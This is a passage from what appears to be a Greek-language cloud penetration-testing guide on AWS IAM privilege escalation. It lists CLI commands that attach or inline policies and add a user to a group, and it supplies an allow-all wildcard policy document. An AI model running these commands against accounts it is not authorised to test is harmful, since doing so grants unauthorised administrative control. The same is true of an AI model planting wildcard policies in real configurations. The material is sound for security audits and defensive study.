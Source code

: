 Επιτρέπει την προσάρτηση ή την τοποθέτηση πολιτικών σε ρόλους, χρήστες ή ομάδες, επιτρέποντας άμεση κλιμάκωση προνομίων με την παροχή επιπλέον αδειών.

**Εκμετάλλευση για Ρόλο:**
```bash
aws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```
**Εκμετάλλευση για Inline Policies:**
```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
--policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json
```
Μπορείτε να χρησιμοποιήσετε μια πολιτική όπως:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": [
"*"
]
}
]
}
```
**Επίπτωση:** Άμεση κλιμάκωση δικαιωμάτων προσθέτοντας άδειες μέσω πολιτικών.

### **`iam:AddUserToGroup`**

Επιτρέπει την προσθήκη του εαυτού σε μια ομάδα IAM, κλιμακώνοντας τα δικαιώματα κληρονομώντας τις άδειες της ομάδας.

**Εκμετάλλευση:**

{% code overflow="wrap" %}
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
{% endcode %}

**Επίπτωση:** Άμεση κλιμάκωση προνομίων στο επίπεδο των δικαιωμάτων της ομάδας.

### **`iam:UpdateAssumeRolePolicy`**

Επιτρέπει την τροποποίηση του εγγράφου πολιτικής ανάθεσης ρόλου ενός ρόλου, επιτρέποντας την ανάληψη του ρόλου και των σχετικών δικαιωμάτων του.
